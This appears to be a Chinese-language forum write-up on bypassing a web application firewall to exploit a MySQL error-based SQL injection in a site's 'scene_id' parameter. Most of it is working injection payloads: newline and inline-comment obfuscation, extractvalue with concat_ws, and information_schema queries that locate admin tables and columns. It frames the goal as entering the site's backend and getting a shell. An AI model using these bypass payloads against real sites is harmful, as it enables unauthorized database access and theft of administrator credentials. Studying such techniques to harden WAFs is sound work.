 ```php
# 尝试插入换行符，拦截
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select%0a`table_name`from xxx)))%23
# 尝试通过注释里面加换行符绕过
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select/*%0a*/`table_name`from xxx)))%23
```

继续拼接完整的查询语句,waf并没有对后续的语句进行拦截

```php
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select/*%0a*/`table_name`from information_schema.tables where table_schema=database() limit 0,1)))%23
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-2f8ac193c8bd89df432be7c18cadcc095703218e.png)

0x03 后续：无疾而终
------------

 绕过了WAF，那么后续自然是想通过注入进入到后台，GetShell完事，但是waf在阻碍日站的速度方面没得说，除非是打算批量日站，要不然我个人觉得写sqlmap tamper的效率并不高，而且这个WAF很容易触发一些意料之外的拦截，所以我选择直接通过Burp获取后台的管理员表。

 测试过程遇到一个很阴间情况，通过`information_schema.columns`尝试去获取指定表名的列的时候，没办法获取到，这是为什么？

```php
mysql> select concat("%", null);
+-------------------+
| concat("%", null) |
+-------------------+
| NULL              |
+-------------------+
1 row in set (0.00 sec)

mysql> select concat_ws(0x7e, null,0x7e);
+----------------------------+
| concat_ws(0x7e, null,0x7e) |
+----------------------------+
| ~                          |
+----------------------------+
1 row in set (0.00 sec)
```

其实这个就是concat的问题，当返回结果为null的时候，无论什么时候拼接都是null，所以可以用`concat_ws`进行替代，下面说一下我是如何快速手工找到后台管理员的表和列的。

```php
1' and  Y(point(56.7, 53.34)) and extractvalue%20%20%20%20%20(0,concat_ws%20%20%20%20%20%20%20%20(0x7e, (select%20concat("@",0x7e,%0atable_name,'#',column_name)%20from%20/**/%0a(information_schema.columns)%20where%20table_name%20like%20%27%25admin%25%27%20limit%201,1)))%23
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c3dcd4774adbe7c646a328b5cb02e17ce3143b95.png)

原理就是通过`like`语句匹配表名和列名进行模糊查询，但这里有个容易踩坑的地方，`%`需要进行额外的URL编码；至于其他内容，其实是基于前面类似思路进行组合来实现绕过waf，比如在测试过程中，我发现`select@from`是可以bypass的，那么我就想了个办法将`@`插入到中间，最终构造出了如上的绕过的语句。
